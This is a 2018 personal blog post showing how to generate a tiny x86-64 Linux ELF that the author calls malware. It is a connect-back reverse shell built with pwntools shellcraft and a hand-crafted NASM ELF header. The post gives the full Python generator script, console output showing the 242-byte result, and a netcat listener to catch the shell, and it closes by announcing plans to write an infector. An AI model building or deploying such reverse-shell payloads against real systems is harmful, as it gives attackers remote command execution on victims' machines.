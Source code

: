 ```yaml
---
id: 499
title: Generating small elf binaries for fun and profit
date: 2018-04-30T01:33:41+00:00
author: paolo
layout: post
guid: http://paolo.zone/blog/?p=499
permalink: /2018/04/30/generatins-small-elf-binaries-for-fun-and-profit/
categories:
  - en-US
tags:
  - hacks
  - linux
  - malware
  - osx
---
```

The ideia was to code an ELF malware smaller then **1kb** to insert it, encoded, inside a bacteriophage modded with _CRISPR/Cas9_ bringing an artistic view of a biologic infector containing a digital infector, an ode to singularity.

Well, to begin, we gonna use python&#8217;s **pwntool** to generate the base code. On linux, on my test box at digitalocean, I installed with pip. Then,

<pre class="brush: python; title: ; notranslate" title="">paolo@kabbalah:~$ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
&gt;&gt;&gt; import os, random, subprocess, string
&gt;&gt;&gt; from pwn import *
&gt;&gt;&gt;
&gt;&gt;&gt; ipaddr = '127.0.0.1'
&gt;&gt;&gt; port = 31337
&gt;&gt;&gt; outfile = 'connectback'
&gt;&gt;&gt;
&gt;&gt;&gt; context(arch='x86_64')
&gt;&gt;&gt;
&gt;&gt;&gt; code = shellcraft.socket(network='ipv4', proto='tcp')
&gt;&gt;&gt; code += shellcraft.connect(ipaddr, port, network='ipv4')
&gt;&gt;&gt; code += shellcraft.dup2('rbp', 0)
&gt;&gt;&gt; code += shellcraft.dup2('rbp', 1)
&gt;&gt;&gt; code += shellcraft.dup2('rbp', 2)
&gt;&gt;&gt; code += shellcraft.sh()
&gt;&gt;&gt;
&gt;&gt;&gt; elf = ELF.from_assembly(code)
[*] '/tmp/pwn-asm-nzvW_p/step3'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
&gt;&gt;&gt; elf.save('lnxmw1')
&gt;&gt;&gt; quit()
paolo@kabbalah:~$ ls -alh lnxmw1
-rw-rw-r-- 1 paolo paolo 4.7K May  1 01:35 lnxmw1
paolo@kabbalah:~$ file lnxmw1
lnxmw1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
paolo@kabbalah:~$
</pre>

As we could see, the binary was ok but was too big(**4.7kb**), we have to make it better, but first I want to install on my macbook. To install it on my OSX sierra was a little tricky as pip3 version was not working. I solved with:

<pre class="brush: plain; title: ; notranslate" title="">$ python3 -m pip install git+https://github.com/arthaud/python3-pwntools.git
</pre>

after installed, I also had to install **nasm** with **brew install nasm**. So, now I had a functional environment but the binary was still too big. Then, I start to look for some elf binary templates to hack into. After check /usr/include/elf.h, _readelf_ and data from generated asm from _pwn_, I endded up with the following script:

<pre class="brush: python; title: ; notranslate" title="">import os, random, subprocess, string
from pwn import *
ipaddr = '127.0.0.1'
port = 31337
outfile = 'binarycrazyness'
context(arch='x86_64')
code = shellcraft.socket(network='ipv4', proto='tcp')
code += shellcraft.connect(ipaddr, port, network='ipv4')
code += shellcraft.dup2('rbp', 0)
code += shellcraft.dup2('rbp', 1)
code += shellcraft.dup2('rbp', 2)
code += shellcraft.sh()
defines=''
for sym in 'SYS_socket', 'SOCK_STREAM', 'SYS_connect', 'SYS_dup2', 'SYS_execve':
    defines += '%s equ %d\n' % (sym, getattr(constants, sym).real)
# for OSX don't have addressFamily.AF_INET (which is, for ipv4, 2) just set it here:
defines += 'AddressFamily.AF_INET equ 2\n'

nasm_code = ("""
BITS 64
  org 0x400000

ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  2         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  _start    ; e_entry
  dq  phdr - $$ ; e_phoff
  dq  0         ; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  1         ; e_phnum
  dw  0         ; e_shentsize
  dw  0         ; e_shnum
  dw  0         ; e_shstrndx
  ehdrsize  equ  $ - ehdr

phdr:           ; Elf64_Phdr
  dd  1         ; p_type
  dd  5         ; p_flags
  dq  0         ; p_offset
  dq  $$        ; p_vaddr
  dq  $$        ; p_paddr
  dq  filesize  ; p_filesz
  dq  filesize  ; p_memsz
  dq  0x1000    ; p_align
  phdrsize  equ  $ - phdr

_start:
""" + defines
    + code.replace('/*', '; /*')
          .replace('dword ptr [', 'dword [')
    +
"""

filesize  equ  $ - $$
""")

with open('%s.asm' % "".join([random.choice(string.ascii_letters) for i in range(15)]), 'w') as f:
    f.write(nasm_code)
    f.flush()
    subprocess.Popen(['nasm', '-f', 'bin', '-o', outfile, f.name]).wait()
    os.remove(f.name)
    os.chmod(outfile, 0o0755)
</pre>

Now, let&#8217;s run this file

<pre class="brush: bash; title: ; notranslate" title="">paolo@daath ~/Workspace $ python3 gen.py
paolo@daath ~/Workspace $ ls -alH 
-rwxr-xr-x  1 paolo  staff  242 Apr 30 22:07 binarycrazyness
paolo@daath ~/Workspace $ file binarycrazyness
binarycrazyness: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, corrupted section header size
paolo@daath ~/Workspace $
</pre>

this **corrupted section header** size exist due to the forced ASM.

To test, in a screen, run

<pre class="brush: plain; title: ; notranslate" title="">$ nc -l 31337
</pre>

and, on the other, run the binary. It&#8217;s beautiful and just **242 bytes!!!**

Next steps are to use GETHOSTBYNAME and write an infector.

See you!